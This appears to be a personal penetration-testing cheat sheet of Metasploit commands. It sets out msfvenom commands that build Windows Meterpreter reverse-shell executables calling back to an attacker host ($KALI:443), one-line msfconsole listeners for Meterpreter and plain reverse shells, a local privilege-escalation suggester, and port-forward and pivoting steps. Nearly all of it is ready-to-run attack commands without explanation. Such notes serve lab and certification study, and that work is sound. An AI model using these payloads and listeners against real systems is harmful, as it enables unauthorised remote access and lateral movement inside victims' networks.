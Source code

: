 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Starting metasploit
```bash - kali
sudo msfdb run
```

#### Windows exe
64:
```bash - kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter64.exe
```

86:
```bash - kali
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter86.exe
```

#### Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

#### Non-Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```

```metereprter - kali
set verbose true
```

```metereprter - kali
set exitonsession false
```

#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```

#### Pivoting
```meterperter - kali
background
```

```meterperter - kali
use post/multi/manage/autoroute
```

set subnet to the new found subnet:
```meterperter - kali
set SUBNET x.x.x.x
```

```meterperter - kali
set SESSION 2
```

```meterperter - kali
exploit
```








